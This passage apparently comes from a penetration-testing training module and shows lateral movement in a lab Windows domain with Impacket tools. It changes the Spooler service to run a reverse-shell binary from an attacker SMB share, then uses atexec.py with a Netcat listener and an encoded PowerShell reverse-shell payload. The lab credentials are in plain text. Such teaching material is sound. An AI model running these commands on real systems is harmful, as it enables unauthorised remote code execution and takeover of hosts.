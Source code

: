 [*] Deleting service Service Backdoor
</code></pre>
<p>Alternatively, we use <code>services.py</code> to modify existing services; for example, if we find a service authenticated as a specific user account, we can change the configuration of that service and make it execute our payload. In the following example, we can modify the <code>Spooler</code> service to execute our payload. First, let's see the current service configuration:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name Spooler
Impacket v0.11.0 - Copyright 2023 Fortra                                                                                                                                                      
                                               
[*] Querying service config for Spooler
TYPE              : 272 -  SERVICE_WIN32_OWN_PROCESS  SERVICE_INTERACTIVE_PROCESS                                                                                                             
START_TYPE        :  4 -  DISABLED
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : C:\Windows\System32\spoolsv.exe
LOAD_ORDER_GROUP  : SpoolerGroup    
TAG               : 0               
DISPLAY_NAME      : Print Spooler  
DEPENDENCIES      : RPCSS/http/
SERVICE_START_NAME: LocalSystem
</code></pre>
<p>Next we will modify the binary path to our payload and set the <code>START_TYPE</code> to <code>AUTO START</code> with the option <code>-start_type 2</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name Spooler -path "\\\\10.10.14.207\\share\\rshell-9001.exe" -start_type 2
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Changing service config for Spooler
</code></pre>
<p>Finally, we can start the service and wait for our command execution:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name Spooler
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Starting service Spooler
</code></pre>
<p>The advantage of this is that if a service is configured with a specific user account, we can take advantage of that account and impersonate it.</p>
<h3>atexec.py</h3>
<p>The <a href="https://github.com/fortra/impacket/blob/master/examples/atexec.py">atexec.py</a> script utilizes the Windows Task Scheduler service, which is accessible through the <code>atsvc</code> SMB pipe. It enables us to remotely append a task to the scheduler, which will execute at the designated time.</p>
<p>With this tool, the command output is sent to a file, which is subsequently accessed via the <code>ADMIN$</code> share. For this utility to be effective, it's essential to synchronize the clocks on both the attacking and target PCs down to the exact minute.</p>
<p>We can leverage this tool by inserting a reverse shell on the target host.</p>
<p>Let's start a <code>Netcat</code> listener:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
</code></pre>
<p>Now let's pass the domain name, administrator user, password, and target IP address <code>&lt;domain&gt;/&lt;user&gt;:&lt;password&gt;@&lt;ip&gt;</code>, and lastly, we can pass our reverse shell payload to get executed. We can generate the reverse shell payload using <a href="https://www.revshells.com/">revshells.com</a>.</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q atexec.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 "powershell -e ...SNIP...AbwBzAGUAKAApAA=="
Impacket v0.11.0 - Copyright 2023 Fortra

